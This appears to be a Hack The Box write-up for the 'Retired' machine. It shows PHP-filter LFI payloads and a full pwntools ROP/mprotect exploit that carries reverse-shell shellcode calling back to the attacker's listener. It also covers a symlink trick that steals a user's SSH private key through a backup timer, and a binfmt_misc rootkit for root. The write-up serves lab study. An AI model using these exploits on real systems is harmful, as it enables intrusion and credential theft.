

Retired is a Linux machine, level medium, from Hack The Box. Created by [uco2KFh](https://app.hackthebox.com/users/590762).  
We will find a Local File Inclusion (LFI) that will lead us to a binary running inside our victim.  
This binary will be vulnerable to a buffer overflow, but it has ASLR, NX, and PIE enabled. Will need to play with ROP chains, mprotect, etc., to make the stack executable, and run our payload to get a reverse shell.  
  
After that, we will get access to our machine as www-data.  
A lateral movement abusing a timer that is running to create web backups will be needed to get the user flag.  
After that, we will use binfmt_misc to escalate privileges.  
## Nmap scan  
  
```bash  
# Nmap 7.92 scan initiated Sat Apr 23 14:39:51 2022 as: nmap -sCV -v -p22,80 -oN targeted 10.129.133.34  
Nmap scan report for 10.129.133.34  
Host is up (0.039s latency).  
  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)  
| ssh-hostkey: |   3072 77:b2:16:57:c2:3c:10:bf:20:f1:62:76:ea:81:e4:69 (RSA)  
|   256 cb:09:2a:1b:b9:b9:65:75:94:9d:dd:ba:11:28:5b:d2 (ECDSA)  
|_  256 0d:40:f0:f5:a8:4b:63:29:ae:08:a1:66:c1:26:cd:6b (ED25519)  
80/tcp open  http    nginx  
| http-methods: |_  Supported Methods: GET HEAD POST  
| http-title: Agency - Start Bootstrap Theme  
|_Requested resource was /index.php?page=default.html  
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Read data files from: /usr/bin/../share/nmap  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
```  
  
### Port 80  
  
  
  
In port 80 we have a web. We can see with Wappalyzer or whatweb that it's not a CMS like Wordpress, Joomla, etc.  
  
We can appreciate the parameter `page=` in the URL. We can try to see if it's vulnerable to a LFI (Local File Inclusion).  
  
After some attempts, we can see that it is vulnerable, but using some wrappers.  
  
- filter:///etc/passwd  
  
  
  
- php://filter/convert.base64-encode/resource=/etc/passwd  
  
  
  
Using the PHP Wrapper we can get the php files, converting them into base64, but first, let fuzz a bit.  
  
```bash  
wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://retired.htb/FUZZ.html  
=====================================================================  
ID           Response   Lines    Word       Chars       Payload                             =====================================================================                                                                                                                   000000040:   200        188 L    824 W      11414 Ch    "default"                           000000916:   200        72 L     304 W      4144 Ch     "beta"
```
  
Let's check this resource.  
  
  
  
We have a form to upload files. If we try to upload something, we will be "stuck" in `http://retired.htb/activate_license.php` Well... we can't see anything, so let's use the PHP base64 wrappers, let's see what this `activate_license.php` is doing.  
  
```bash  
curl -s -X GET 'http://retired.htb/index.php?page=php://filter/convert.base64-encode/resource=activate_license.php' | base64 -d  
<?php  
if(isset($_FILES['licensefile'])) {  
    $license      = file_get_contents($_FILES['licensefile']['tmp_name']);    $license_size = $_FILES['licensefile']['size'];  
    $socket = socket_create(AF_INET, SOCK_STREAM, SOL_TCP);    if (!$socket) { echo "error socket_create()\n"; }  
    if (!socket_connect($socket, '127.0.0.1', 1337)) {        echo "error socket_connect()" . socket_strerror(socket_last_error()) . "\n";    }  
    socket_write($socket, pack("N", $license_size));    socket_write($socket, $license);  
    socket_shutdown($socket);    socket_close($socket);}  
?>  
```
  
We found something interesting here! We have a process running in 127.0.0.1:1337, but this port it's open just internally.  
  
Let's try to find using the LFI what is going on there...  
  
There are multiple ways to find this, you can fuzz the `/proc/<PID>/cmdline`, or for example try to find something in `proc/sched_debug`  
  
```bash  
curl -s -X GET 'http://retired.htb/index.php?page=file:////proc/sched_debug' | grep "activate"  
S activate_licens 410 15597.703595 10 120 0.000000 3.824783 0.000000 0 0
```  
  
Now, we got the PID, we can see how it was launched in `/proc/410/cmdline`, and we will see something like `/usr/bin/activate_license1337`  
  
Alright, let's download this binary. We will use base64 for that again.  
  
```bash  
curl -s -X GET 'http://retired.htb/index.php?page=php://filter/convert.base64-encode/resource=/usr/bin/activate_license' | base64 -d > activate_license  
chmod +x activate_license  
file activate_licenseactivate_license: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=554631debe5b40be0f96cabea315eedd2439fb81, for GNU/Linux 3.2.0, with debug_info, not stripped  
checksec activate_license[*] '/home/edbrsk/CTFs/htb/retired/content/activate_license'  
    Arch:     amd64-64-little    RELRO:    Full RELRO    Stack:    No canary found    NX:       NX enabled    PIE:      PIE enabled    curl -s -X GET 'http://retired.htb/index.php?page=file:///proc/sys/kernel/randomize_va_space'2  
```
  
We have ASLR activated, NX enabled, PIE enabled.  
### BOF  

We have to download the files from the remote server and save them on our machine.  
  
```bash  
curl -s -X GET 'http://retired.htb/index.php?page=php://filter/convert.base64-encode/resource=/usr/lib/x86_64-linux-gnu/libc-2.31.so' | base64 -d > libc-2.31.socurl -s -X GET 'http://retired.htb/index.php?page=php://filter/convert.base64-encode/resource=/usr/lib/x86_64-linux-gnu/libsqlite3.so.0.8.6' | base64 -d > libsqlite3.so.0.8.6
```
  
Now, we will try to see if this binary is vulnerable to buffer overflow, and if so, we need to know the offset.  
  
To send our payload I'll use the `activate_license.php`. 
```bash  
php -S localhost:8081 activate_license.php
```
  
Start gdb-peda, imporant that the binary will be listening in port 1337  
```bash
gdb --args ./activate_license 1337  
gdb-peda$ pattern_create 800 pattern.txt  
gdb-peda$ run  
```
  
Using Burpsuite we can intercept the request, then click on "Action" -> "Copy as curl command" -> Change the URL to `http://localhost:8081`, send it and done!  
  
  
  
```bash  
gdb-peda$ x/wx $rsp  
gdb-peda$ pattern_offset 0x416a7341  
1097495361 found at offset: 520
```
  
As we can see, offset found: **520**. Now we have to make the stack executable.  
#### Exploit  
  
  

```python  
#!/usr/bin/python3  
  
from pwn import *  
import time,socket,signal,sys,struct,socket,threading,re,requests  
  
def signal_handler(sig, frame):  
log.info("Exit...")  
sys.exit(0)  
  
  
def make_request(payload):  
log.info("Sending payload...")  
data = {'licensefile': ('key.txt', payload, 'application/octet-stream')}  
headers = {  
"Accept": "application/octet-stream",  
"Accept-Encoding": "gzip, deflate",  
"Connection": "close",  
"Upgrade-Insecure-Requests": "1"  
}  
requests.post('http://retired.htb/activate_license.php', files=data, headers=headers)  
  
  
signal.signal(signal.SIGINT, signal_handler)  
  
if __name__ == '__main__':  
context.clear(arch='amd64')  
  
    log.info("Exploting activate_license...")  
    # PID activate_license in /proc/sched_debug    # addresses in /proc/<PID>/maps    # 7f6c2fd9a000-7f6c2fdbf000 r--p 00000000 08:01 3634                       /usr/lib/x86_64-linux-gnu/libc-2.31.so    libc_base = int('7f6c2fd9a000', 16)  
    # 7f6c2ff5f000-7f6c2ff6f000 r--p 00000000 08:01 5321                       /usr/lib/x86_64-linux-gnu/libsqlite3.so.0.8.6    libsqlite_base = int('7f6c2ff5f000', 16)  
    # 7ffef4ffb000-7ffef501c000 rw-p 00000000 00:00 0                          [stack]    stack_base = int('7ffef4ffb000', 16)    stack_end = int('7ffef501c000', 16)  
    # calc size of stack for mprotect    stack_size = stack_end - stack_base  
    log.info(f"libc_base      -> {hex(libc_base)}")    log.info(f"libsqlite_base -> {hex(libsqlite_base)}")    log.info(f"stack_base     -> {hex(stack_base)}")    log.info(f"stack_end      -> {hex(stack_end)}")    log.info(f"stack_size     -> {hex(stack_size)}")  
    # msfvenom -p linux/x64/shell_reverse_tcp LHOST=<<ip address>> LPORT=<<Port>> -f py    buf =  b""    buf += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48"    buf += b"\x97\x48\xb9\x02\x00\x01\xbb\x0a\x0a\x0e\x3e\x51\x48"    buf += b"\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e"    buf += b"\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58"    buf += b"\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48"    buf += b"\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"  
    # download files from the server and save them locally    libc = ELF("/home/edbrsk/CTFs/htb/retired/content/libc-2.31.so", checksec=False)    libc.address = libc_base  
    libsql = ELF("/home/edbrsk/CTFs/htb/retired/content/libsqlite3.so.0.8.6", checksec=False)    libsql.address = libsqlite_base  
    # ROP    rop = ROP([libc, libsql])    mprotect = libc.symbols['mprotect'] # readelf -s libc.so.6 | grep mprotect    pop_rdi  = rop.rdi[0]               # ropper -f libc.so.6 --search "pop rdi"    pop_rsi  = rop.rsi[0]               # ropper -f libc.so.6 --search "pop rsi"    pop_rdx  = rop.rdx[0]               # ropper -f libc.so.6 --search "pop rdx"    jmp_rsp  = rop.jmp_rsp[0]           # ropper -f libsqlite3.so.0.8.6 --search "jmp rsp"  
    # offset found using gdb    offset = 520    chunk  = b'A' * offset  
    # Payload    payload = chunk    # int mprotect(void *addr, size_t len, int prot);    payload += p64(pop_rdi) + p64(stack_base)        # addr = begin of the Stack    payload += p64(pop_rsi) + p64(stack_size)        # len = size of the Stack    payload += p64(pop_rdx) + p64(7)                 # prot = rwx - 777 permissions to the Stack    payload += p64(mprotect)                         # call to mprotect function    payload += p64(jmp_rsp)                          # jmp rsp    payload += buf                                   # adding shellcode  
    try:        threading.Thread(target=make_request, args=(payload,)).start()    except Exception as e:        log.error(str(e))  
    shell = listen(443, timeout=20).wait_for_connection()  
    shell.interactive()
```

I'll create a post soon explaining the techniques used in this exploit.  
For now, I'll share also some other good resources that could help you to understand a bit more about what's going on here.  
  
- [Make stack executable | ROP chaining | Bypass NX | Linux x64 Binary Exploitation](https://www.sechustle.com/2020/01/make-stack-executable-rop-chaining.html)  
- [ELF x64 Bypass NX with mprotect()](https://syrion.me/blog/elfx64-bypass-nx-with-mprotect/)  
- [Make stack executable again](https://ret2rop.blogspot.com/2018/08/make-stack-executable-again.html)  
  
After running our exploit... 
  
```bash
./exploit_retired.py  
[*] Exploting activate_license...  
[*] libc_base      -> 0x7fcb90fde000  
[*] libsqlite_base -> 0x7fcb911a3000  
[*] stack_base     -> 0x7ffc6d6ca000  
[*] stack_end      -> 0x7ffc6d6eb000  
[*] stack_size     -> 0x21000  
[*] Loaded 190 cached gadgets for '/home/edbrsk/CTFs/htb/retired/content/libc-2.31.so'  
[*] Loaded 162 cached gadgets for '/home/edbrsk/CTFs/htb/retired/content/libsqlite3.so.0.8.6'  
[*] Sending payload...  
[+] Trying to bind to :: on port 443: Done  
[+] Waiting for connections on :::443: Got connection from ::ffff:10.129.109.45 on port 45970  
[*] Switching to interactive mode  
$ iduid=33(www-data) gid=33(www-data) groups=33(www-data)  
$ whoamiwww-data  
```  
  
## User flag  
  
We got a shell as www-data. Doing a simple `ls` in `/var/www` we can see some *.zip files.  
  
```bash  
ls  
2022-05-14_11-42-01-html.zip  
2022-05-14_11-43-01-html.zip  
2022-05-14_11-44-01-html.zip  
html  
license.sqlite  
```
  
We can try to see if there is any cron or timer doing some automatic backup.  
  
```bash  
systemctl list-timersNEXT                        LEFT           LAST                        PASSED       UNIT                         ACTIVATESSat 2022-05-14 12:14:00 UTC 21s left       Sat 2022-05-14 12:13:01 UTC 37s ago      website_backup.timer         website_backup.service
```
  
There is a timer called `website_backup`. Let's see what is it doing.  
  
```bash  
cd /etc/systemd/system$ cat website_backup.timer[Unit]  
Description=Regularly backup the website as long as it is still under development  
  
[Timer]  
OnCalendar=minutely  
  
[Install]  
WantedBy=multi-user.target  
$ cat website_backup.service[Unit]  
Description=Backup and rotate website  
  
[Service]  
User=dev  
Group=www-data  
ExecStart=/usr/bin/webbackup  
  
[Install]  
WantedBy=multi-user.target  
  
$ cat /usr/bin/webbackup#!/bin/bash  
set -euf -o pipefail  
cd /var/www/  
SRC=/var/www/html  
DST="/var/www/$(date +%Y-%m-%d_%H-%M-%S)-html.zip"  
  
/usr/bin/rm --force -- "$DST"/usr/bin/zip --recurse-paths "$DST" "$SRC"  
KEEP=10  
/usr/bin/find /var/www/ -maxdepth 1 -name '*.zip' -print0 \    | sort --zero-terminated --numeric-sort --reverse \    | while IFS= read -r -d '' backup; do        if [ "$KEEP" -le 0 ]; then            /usr/bin/rm --force -- "$backup"        fi        KEEP="$((KEEP-1))"    done$
```
  
Alright... The user "dev" is executing the script, and this script is creating each minute a *.zip with the content inside `/var/www/html`.  
Easy! Let's create a symlink like this `ln -s /home/dev/.ssh/id_rsa id_rsa.txt` inside `/var/www/html`.  
After that, copy the latest zip in `/tmp`, unzip it, and we'll get the `id_rsa` of our user `dev`.  
  
  
  
Now we can use the `id_rsa` to get access with ssh as dev.  
  
```bash  
❯ ssh dev@retired.htb -i id_rsaLinux retired 5.10.0-11-amd64 #1 SMP Debian 5.10.92-2 (2022-02-28) x86_64  
  
The programs included with the Debian GNU/Linux system are free software;  
the exact distribution terms for each program are described in the  
individual files in /usr/share/doc/*/copyright.  
  
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent  
permitted by applicable law.  
Last login: Fri May 13 16:43:10 2022 from 10.10.14.55  
dev@retired:~$ ls  
activate_license  emuemu  user.txt  
dev@retired:~$ cat user.txt 1a635b3a5d1f8fb92b5cbdce975caca2  
dev@retired:~$   
```
  
## Privilege escalation (root flag)  
  
Let's escalate privileges! We saw a folder called `emuemu` inside `/home/dev/`.  
Taking a look what it's inside, we'll found some binaries and C code.  
  
There is a file called `reg_helper.c`.  
  
```bash
dev@retired:~/emuemu$ cat reg_helper.c  
#define _GNU_SOURCE  
  
#include <fcntl.h>  
#include <stdio.h>  
#include <string.h>  
#include <sys/stat.h>  
#include <sys/types.h>  
#include <unistd.h>  
  
int main(void) {char cmd[512] = { 0 };  
    read(STDIN_FILENO, cmd, sizeof(cmd)); cmd[-1] = 0;  
  
    int fd = open("/proc/sys/fs/binfmt_misc/register", O_WRONLY);    if (-1 == fd)        perror("open");    if (write(fd, cmd, strnlen(cmd,sizeof(cmd))) == -1)        perror("write");    if (close(fd) == -1)        perror("close");  
    return 0;}  
```
  
It's quite noticeable the path `/proc/sys/fs/binfmt_misc/register`, and a bit of Google it's enough to find an exploit.  
The exploit it's quite interesting, it's playing with magic bytes to change the SUID, you can read more about it here.  
  
- [binfmt_rootkit](https://github.com/toffan/binfmt_misc)  
  
The exploit requires some modification.  
We will have to remove the `not_writable` function, and we will change the line 101 to  
```bash  
echo "$binfmt_line" | /usr/lib/emuemu/reg_helper  
```
so we'll be using the pipe command to use the echo as input for our emuemu "reg_helper".  
  
Let's execute it!  
  
```bash  
dev@retired:~$ ./binfmt_rootkit  
./binfmt_rootkit: line 47: not_writeable: command not founduid=0(root) euid=0(root)  
# whoami  
root  
# cd /root  
# ls  
cleanup.sh  root.txt# cat root.txt  
ea39f0538ab28cfd7ff1baa2c8a5c901  
```
  
That's it! We are root!  
  
  
  
I really liked Retired. I learned a lot with this box. Hopefully, this write-up it's been useful for you too, and you learned something from it.
